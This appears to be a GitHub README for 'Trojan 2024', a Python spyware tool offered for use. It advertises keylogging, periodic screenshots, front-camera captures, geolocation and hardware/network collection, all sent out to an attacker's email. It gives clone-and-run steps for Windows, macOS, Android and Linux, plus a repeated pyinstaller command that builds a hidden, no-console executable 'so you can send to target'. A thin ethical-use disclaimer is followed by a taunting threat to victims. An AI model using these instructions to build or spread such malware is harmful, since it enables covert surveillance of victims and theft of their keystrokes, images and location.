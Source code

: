 Trojan 2024: A Multi-Platform Information Gathering Script .

Features :
=======
Screenshots

Keystrokes

Hardware and network information

Geolocation data

Front camera captures

All data is securely delivered via email for your convenience.

Key Features
=======
Screenshot Capture: Automatically captures desktop activity every 60 seconds.

Keylogging: Records typed text at configurable intervals.

Hardware Information: Retrieves details like CPU, GPU, and RAM specs.

Network Data: Captures IP addresses, MAC addresses, and more.

Geolocation Tracking: Provides approximate location details.

Camera Access: Takes images using the front camera (if available).


How to install .
=====
Installation and Setup

Windows
==
Open PowerShell or Command Prompt.

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojan

pip install -r requirements.txt

python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py



macOS
==


Open the Terminal.

Clone this repository

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojan

python3 -m pip install -r requirements.txt

python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Termux (Android)
==
Install Termux from F-Droid or the Google Play Store.

Update packages

pkg update && pkg upgrade

pkg install git python

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojanpip install -r requirements.txt

python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Linux
===
Open the Terminal.

Clone this repository

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojan

python3 -m pip install -r requirements.txt

python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Usage Instructions
==
Email Configuration

During setup, you’ll need to provide:


The sender email.

The app password (generated through your email provider).

The recipient email address for receiving data.

Follow the platform-specific instructions to execute the script and ensure that data is sent correctly to your email.


How it works .
==
When you run this command, Generate a standalone executable so you can send to target.

In your current folder, i.e. 2024Trojan, a dist folder will be created, where your executable file will be placed and you can send it to the target, it will start running when clicked.




Support
==
BTC Wallet: bc1q3kqdczj6q780y642yq9dvvfuk43g5a5uxn83f2

Ethereum Wallet: 0xE8e903eE127113c30aFd52acbDbdB567968534Ea

Feel free to support or donate if this tool was helpful to you! 😊

Disclaimer
==
Warning: This tool is intended for ethical and legal purposes only, such as cybersecurity research and penetration testing (with proper authorization). Unauthorized or malicious use of this script is illegal.

"Your defenses are paper walls against my storm. Every keystroke whispers your secrets; every shadow hides my trace. By the time you notice, I'll already be gone... or maybe I’ll just be watching."
